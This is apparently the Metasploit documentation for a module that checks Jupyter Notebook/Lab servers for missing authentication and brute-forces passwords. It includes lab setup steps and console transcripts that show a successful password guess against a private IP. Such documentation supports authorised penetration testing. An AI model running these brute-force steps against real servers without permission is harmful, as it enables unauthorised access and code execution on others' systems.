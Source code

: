 ## Vulnerable Application

This module checks if authentication is required on a Jupyter Lab or Notebook server. If it is, this module will
bruteforce the password. Jupyter only requires a password to authenticate, usernames are not used. This module is
compatible with versions 4.3.0 (released 2016-12-08) and newer. [Version 4.3.0][1] is the first version in which
authentication is required by default.

A note on names, "Jupyter Lab" is the next-generation interface for "Jupyter Notebooks" which was the successor of the
original IPython Notebook system. This module is compatible with both standard Jupyter Notebook and Jupyter Lab servers.

### Installation

1. Install the latest version of Jupyter from PyPi using pip: `pip install notebook`. The "notebook" package is the core
  application and is the one whose version number is used as the Jupyter version number referred to in this document.
1. Start Jupyter using `jupyter notebook --ip='*'` to start Jupyter listening on all IP addresses.
    * New installs will randomly generate an authentication token and open the browser with it
    * As of [version 5.3][2], the user will be prompted to set a password the first time they open the UI
    * Note that you may need to restart Jupyter after changing the password in order for Jupyter to start using the new password.
    * If you can't reset the password, it may be because you need to create the directory `.jupyter` in the directory 
    you are running the `jupyter notebook --ip='*'` command from.
1. With the password set, the module can be tested

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/jupyter_login`
1. Set the `RHOSTS` option
    * With no other options set, this will only check if authentication is required
1. Do: `run`
1. You should the server version
1. If password options (such as `PASS_FILE`) where specified, and the server requires authentication then you should see
   login attempts

## Options

## Scenarios

### Jupyter Notebook 4.3.0 With No Authentication Requirement

```
msf5 > use auxiliary/scanner/http/jupyter_login 
msf5 auxiliary(scanner/http/jupyter_login) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf5 auxiliary(scanner/http/jupyter_login) > set PASS_FILE /tmp/passwords.txt
PASS_FILE => /tmp/passwords.txt
msf5 auxiliary(scanner/http/jupyter_login) > run

[*] 192.168.159.128:8888 - The server responded that it is running Jupyter version: 4.3.0
[+] 192.168.159.128:8888 - No password is required.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/jupyter_login) >
```

### Jupyter Notebook 6.0.2 With A Password Set

```
msf5 > use auxiliary/scanner/http/jupyter_login 
msf5 auxiliary(scanner/http/jupyter_login) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf5 auxiliary(scanner/http/jupyter_login) > set PASS_FILE /tmp/passwords.txt
PASS_FILE => /tmp/passwords.txt
msf5 auxiliary(scanner/http/jupyter_login) > run

[*] 192.168.159.128:8888 - The server responded that it is running Jupyter version: 6.0.2
[-] 192.168.159.128:8888 - LOGIN FAILED: :Password (Incorrect)
[+] 192.168.159.128:8888 - Login Successful: :Password1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/jupyter_login) >
```

[1]: https://jupyter-notebook.readthedocs.io/en/stable/changelog.html#release-4-3
[2]: https://jupyter-notebook.readthedocs.io/en/stable/public_server.html#automatic-password-setup

